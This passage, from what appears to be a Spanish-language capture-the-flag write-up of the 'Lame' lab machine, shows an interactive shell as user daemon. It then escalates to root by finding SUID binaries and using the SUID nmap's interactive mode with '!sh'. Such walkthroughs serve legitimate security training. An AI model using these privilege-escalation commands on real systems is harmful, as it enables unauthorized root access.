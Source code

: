 ```
```

Ya tenemos un `consola` completamente `interactiva`

```
daemon@lame:/tmp$ whoami
daemon
```

## Privilege Escalation

Buscamos binarios `SUID` y encontramos `nmap`

```
daemon@lame:/tmp$ find / -perm -4000 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

Mediante `nmap` en modo `interactivo` podemos `spawnear` una `shell` como usuario `root`

```
daemon@lame:/tmp$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
```
